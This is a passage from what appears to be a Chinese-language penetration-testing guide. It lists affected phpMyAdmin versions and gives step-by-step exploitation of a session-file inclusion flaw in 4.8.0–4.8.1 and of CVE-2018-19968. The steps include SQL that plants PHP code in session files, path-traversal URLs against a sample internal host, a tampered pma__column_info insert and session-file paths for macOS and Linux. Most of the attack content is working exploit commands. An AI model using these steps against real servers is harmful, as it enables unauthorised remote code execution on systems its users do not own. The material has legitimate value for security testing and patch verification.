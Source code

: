 影响范围：

```
phpMyAdmin version
	4.8.0和4.8.1
```

利用如下：
（1）执行SQL语句，将PHP代码写入Session文件中：

```
select '<?php phpinfo();exit;?>'
```


（2）包含session文件：

```
http://10.1.1.10/index.php?target=db_sql.php%253f/../../../../../../../../var/l ib/php/sessions/sess_*** 		# *** 为phpMyAdmin的COOKIE值
```

### 3.5 CVE-2018-19968：任意文件包含/RCE

影响范围：

```
phpMyAdmin version
	4.8.0~4.8.3
```

利用如下：
（1）创建数据库，并将PHP代码写入Session文件中

```
CREATE DATABASE foo;CREATE TABLE foo.bar (baz VARCHAR(100) PRIMARY KEY );INSERT INTO foo.bar SELECT '<?php phpinfo(); ?>';
```

（2）生成foo数据库的phpMyAdmin的配置表，访问：

```
http://10.1.1.10/chk_rel.php?fixall_pmadb=1&db=foo
```

（3）篡改数据插入pma column_info中：

```
INSERT INTO` pma__column_infoSELECT '1', 'foo', 'bar', 'baz', 'plop','plop', ' plop', 'plop','../../../../../../../../tmp/sess_***','plop'; # *** 为phpMyAdmin 的COOKIE值
```

这里要注意不用系统的session保存位置不同，具体系统可以在phpMyAdmin登录后首页看到

MacOS：

```
/var/tmp
```

Linux：

```
/var/lib/php/sessions
```
